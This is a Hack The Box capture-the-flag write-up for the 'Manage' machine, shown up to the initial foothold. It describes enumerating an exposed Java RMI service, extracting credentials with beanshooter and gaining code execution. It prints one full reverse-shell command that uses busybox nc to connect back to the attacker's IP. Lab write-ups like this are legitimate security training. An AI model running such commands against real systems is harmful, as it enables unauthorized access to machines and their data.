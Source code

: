 ```yaml
---
title: "HTB Manage Writeup"
date: 2025-07-31
tags:
  - HTB
  - Manage
---
```

# About Manage

Manage is an easy Linux machine that features an exposed `Java RMI` service. Exploiting the underlying vulnerable `JMX` service leads to remote code execution and gaining a remote shell as the `tomcat` user. Lateral movement to the `useradmin` account can be achieved by discovering a misconfigured backup archive which leaks sensitive files, including `SSH` keys and `OTP` codes. Finally, a `sudo` misconfiguration allows for creating a privileged user and achieving full privilege escalation.

# Enumeration & Initial Access

<img width="1374" height="1027" alt="2025-07-31 115048" src="https://github.com/user-attachments/assets/dfa11bf6-14f7-4637-897d-242dad506b7b" />

I started off with a scan and saw three ports, one on the standard port 22 and a non-default one on port 2222 running Java RMI. On port 8080, there was an Apache Tomcat 10 application running.

I spent some time trying to find a vulnerability in the Tomcat application. I ran ffuf with some common Tomcat wordlists but didn't find any interesting files. The /manager directory was also locked down and only accessible from a browser running on the same machine.

After hitting a dead end with the web app, I decided to take a closer look at what was running on port 2222. It turned out to be a Java RMI service. This was my first time dealing with Java RMI, so I had to do some research on how it could be exploited. I found a great resource on PayloadsAllTheThings that recommended an enumeration tool called beanshooter.

Running beanshooter was a success! It found credentials for a "manager" and an "admin" user.

<img width="1296" height="465" alt="2025-07-31 125801" src="https://github.com/user-attachments/assets/8694df6b-dc50-49c2-bfe7-79ba8ca026b0" />


Getting a Shell with Beanshooter

The same guide on PayloadsAllTheThings also showed how to get Remote Code Execution with beanshooter and the credentials I just found. I crafted the command to send a reverse shell back to my machine.
Bash

<img width="1241" height="471" alt="2025-07-31 130229" src="https://github.com/user-attachments/assets/824ece7d-4baf-4515-bb4f-e1b6dc3a3d50" />

```bash
java -jar target/beanshooter-4.1.0-jar-with-dependencies.jar standard 10.129.168.238 2222 exec 'busybox nc 10.10.14.139 9001 -e /bin/bash'
```

I set up a netcat listener on port 9001, ran the command, and got a reverse shell as the tomcat user.
<img width="939" height="192" alt="2025-07-31 131225" src="https://github.com/user-attachments/assets/c9176bd7-f723-4765-b17e-2bf7193d0dd8" />
